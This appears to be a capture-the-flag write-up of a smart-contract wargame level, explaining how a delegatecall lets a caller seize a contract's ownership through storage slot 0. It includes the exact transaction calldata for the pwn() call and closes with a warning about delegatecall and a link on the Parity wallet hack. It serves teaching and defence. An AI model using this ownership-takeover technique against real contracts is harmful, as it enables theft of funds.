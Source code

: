 Solution
========
The owner address of Delegate and Delegation are both in slot 0, i.e. the first variable declared in both contracts.
--> If owner is changed inside Delegate's pwn() function using a delegatecall from Delegation, the owner of Delegation will be changed. Note: the owner of Delegate will not be changed!

--> send a transaction with a call to pwn() encoded in the transcation data.

How to get msg.data?
====================

Solidity: bytes4 methodID = bytes4(keccak256("pwn()"));
--> How to add padding?

ethers.js:
1. copy index.js and package.json from this repo
2. run npm install (if ethers is not installed)
3. node index.js


await sendTransaction({
  from: player,
  to: instance,
  data: "0xdd365b8b0000000000000000000000000000000000000000000000000000000000000000"
});

(await contract.owner()).toString()

--> SOLVED

Conclusion
==========

Usage of delegatecall is particularly risky and has been used as an attack vector on multiple historic hacks. With it, your contract is practically saying "here, -other contract- or -other library-, do whatever you want with my state". Delegates have complete access to your contract's state. The delegatecall function is a powerful feature, but a dangerous one, and must be used with extreme care.

Please refer to the The [Parity Wallet Hack Explained](https://blog.openzeppelin.com/on-the-parity-wallet-multisig-hack-405a8c12e8f7/) article for an accurate explanation of how this idea was used to steal 30M USD.